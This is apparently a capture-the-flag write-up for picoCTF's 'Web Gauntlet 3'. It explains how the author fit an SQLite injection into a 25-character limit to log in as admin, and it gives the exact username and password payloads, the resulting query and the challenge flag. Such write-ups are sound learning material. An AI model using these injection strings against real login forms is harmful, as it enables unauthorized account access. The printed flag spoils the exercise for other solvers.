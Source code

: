 ## Description
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:8650/ Filter: http://mercury.picoctf.net:8650/filter.php

### Hints
- Each filter is separated by a space. Spaces are not filtered.
- There is only 1 round this time, when you beat it the flag will be in filter.php.
- sqlite

## Tools I Used
- None

## Thought Process
This challenge looked identical to [Web Gauntlet 2](https://github.com/shari09/ctf-writeups/picoCTF2021/blob/master/Web-Gauntlet-2) so I just tried out the same injection.

Injection:
```
username: admi'||'n'||substr(
password: ,0,0)||'
```

Uh oh, this time it had a 25 character limit, so I had to come up with a new query. However, after I looked through all the string functions SQLite has, I realized `substr()` was the only one that trimmed based on position and length. :(

Original query:\
<code>SELECT username, password FROM users WHERE username=<mark>'admi'</mark>||<mark>'n'</mark>||<mark>substr(' AND password=',0,0)</mark>||<mark>''</mark></code>

Then I realized, wasn't 2 characters just one less `||`, so I moved  `'n'` to be after the `substr(...)`, eliminating <code>'admi'||'n'<mark>||</mark>subst</code>.

Thus the new query:\
<code>SELECT username, password FROM users WHERE username=<mark>'admi'</mark>||<mark>substr(' AND password=',0,0)</mark>||<mark>'n'</mark></code>


Injection:
```
username: admi'||substr(
password: ,0,0)||'n
```
totalling 23 characters

\
Again, it gave me the response of `Congrats! You won! Check out filter.php`. So I navigated there, refreshed, and saw the flag.


## Flag
`picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}`